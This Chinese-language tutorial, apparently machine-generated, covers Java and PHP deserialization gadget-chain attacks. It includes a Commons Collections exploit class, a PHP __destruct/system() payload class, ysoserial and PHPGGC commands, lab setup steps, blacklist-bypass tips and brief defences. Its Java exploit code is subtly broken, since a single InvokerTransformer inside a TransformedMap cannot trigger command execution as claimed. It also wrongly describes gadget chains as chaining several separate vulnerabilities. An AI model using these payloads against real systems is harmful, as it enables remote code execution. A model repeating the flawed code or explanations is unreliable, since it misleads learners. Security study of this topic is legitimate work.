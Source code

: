 # 反序列化漏洞链构造的攻击技术

## 1. 技术原理解析

### 1.1 反序列化漏洞概述

反序列化漏洞是指应用程序在反序列化过程中，未对输入数据进行严格的验证和过滤，导致攻击者可以通过构造恶意序列化数据来执行任意代码或进行其他恶意操作。反序列化漏洞通常出现在使用Java、PHP、Python等语言的应用程序中，这些语言提供了序列化和反序列化的功能，以便将对象转换为字节流进行存储或传输。

### 1.2 反序列化漏洞的底层机制

在Java中，序列化和反序列化是通过`ObjectOutputStream`和`ObjectInputStream`类实现的。当对象被序列化时，其状态（包括字段值）被写入字节流；当对象被反序列化时，字节流被读取并重新构造对象。如果攻击者能够控制反序列化的输入数据，就可以通过构造恶意字节流来触发目标对象的特定方法，从而执行任意代码。

在PHP中，序列化和反序列化是通过`serialize()`和`unserialize()`函数实现的。PHP的反序列化机制允许攻击者通过构造恶意序列化字符串来触发目标对象的`__wakeup()`或`__destruct()`方法，从而执行任意代码。

### 1.3 反序列化漏洞链构造

反序列化漏洞链构造是指攻击者通过构造一系列恶意对象，利用目标应用程序中的多个反序列化漏洞，逐步实现代码执行或其他恶意操作。这种攻击方式通常需要攻击者对目标应用程序的代码结构和依赖库有深入的了解，以便找到可以利用的漏洞链。

## 2. 常见攻击手法和利用方式

### 2.1 Java反序列化漏洞利用

#### 2.1.1 Commons Collections库漏洞

Apache Commons Collections库中的`InvokerTransformer`类允许通过反射调用任意方法，攻击者可以利用该类构造恶意对象，在反序列化时执行任意代码。

**攻击步骤：**
1. 构造恶意序列化对象，利用`InvokerTransformer`类调用`Runtime.exec()`方法执行命令。
2. 将恶意序列化对象发送给目标应用程序。
3. 目标应用程序反序列化恶意对象，触发代码执行。

**示例代码：**
```java
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Exploit {
    public static void main(String[] args) throws Exception {
        // 构造恶意Transformer
        InvokerTransformer transformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});

        // 构造恶意Map
        Map<String, String> map = new HashMap<>();
        map.put("key", "value");
        Map<String, String> transformedMap = TransformedMap.decorate(map, null, transformer);

        // 序列化恶意对象
        FileOutputStream fos = new FileOutputStream("payload.ser");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(transformedMap);
        oos.close();
    }
}
```

#### 2.1.2 ysoserial工具

`ysoserial`是一个用于生成Java反序列化漏洞利用payload的工具，支持多种漏洞利用链。

**使用示例：**
```bash
java -jar ysoserial.jar CommonsCollections1 "calc.exe" > payload.ser
```

### 2.2 PHP反序列化漏洞利用

#### 2.2.1 `__wakeup()`和`__destruct()`方法

PHP中的`__wakeup()`和`__destruct()`方法在反序列化时会被自动调用，攻击者可以通过构造恶意对象来触发这些方法中的代码执行。

**攻击步骤：**
1. 构造恶意序列化对象，利用`__wakeup()`或`__destruct()`方法执行命令。
2. 将恶意序列化对象发送给目标应用程序。
3. 目标应用程序反序列化恶意对象，触发代码执行。

**示例代码：**
```php
<?php
class Exploit {
    public $cmd = "calc.exe";

    public function __destruct() {
        system($this->cmd);
    }
}

$exploit = new Exploit();
echo serialize($exploit);
?>
```

#### 2.2.2 PHPGGC工具

`PHPGGC`是一个用于生成PHP反序列化漏洞利用payload的工具，支持多种漏洞利用链。

**使用示例：**
```bash
phpggc -o payload.ser Monolog/RCE1 system "calc.exe"
```

## 3. 实验环境搭建指南

### 3.1 Java实验环境

**环境要求：**
- JDK 8
- Apache Commons Collections 3.1
- ysoserial工具

**搭建步骤：**
1. 安装JDK 8。
2. 下载并安装Apache Commons Collections 3.1库。
3. 下载ysoserial工具。
4. 编写一个简单的Java应用程序，使用`ObjectInputStream`进行反序列化操作。
5. 使用ysoserial生成恶意payload，发送给目标应用程序进行测试。

### 3.2 PHP实验环境

**环境要求：**
- PHP 5.x或7.x
- PHPGGC工具

**搭建步骤：**
1. 安装PHP 5.x或7.x。
2. 下载PHPGGC工具。
3. 编写一个简单的PHP应用程序，使用`unserialize()`函数进行反序列化操作。
4. 使用PHPGGC生成恶意payload，发送给目标应用程序进行测试。

## 4. 高级利用技巧

### 4.1 绕过黑名单

某些应用程序可能会对反序列化操作进行黑名单过滤，攻击者可以通过使用不常见的类或方法绕过黑名单。

### 4.2 利用依赖库漏洞

攻击者可以利用目标应用程序依赖的第三方库中的漏洞，构造更复杂的漏洞链，实现更隐蔽的攻击。

### 4.3 内存破坏利用

在某些情况下，攻击者可以通过反序列化漏洞触发内存破坏，利用堆溢出或其他内存漏洞实现代码执行。

## 5. 防御措施

### 5.1 输入验证和过滤

对反序列化的输入数据进行严格的验证和过滤，确保输入数据符合预期格式。

### 5.2 使用安全的序列化库

使用安全的序列化库，避免使用存在已知漏洞的库。

### 5.3 限制反序列化操作

限制反序列化操作的范围，避免反序列化不可信的数据。

### 5.4 监控和日志记录

对反序列化操作进行监控和日志记录，及时发现和响应潜在的攻击行为。

## 6. 总结

反序列化漏洞链构造是一种复杂的攻击技术，攻击者通过构造恶意对象链，利用目标应用程序中的多个反序列化漏洞，逐步实现代码执行或其他恶意操作。防御反序列化漏洞需要从输入验证、使用安全库、限制操作范围等多个方面进行综合防护。通过深入理解反序列化漏洞的底层机制和攻击手法，可以有效提升应用程序的安全性。

---

*文档生成时间: 2025-03-11 17:56:15*
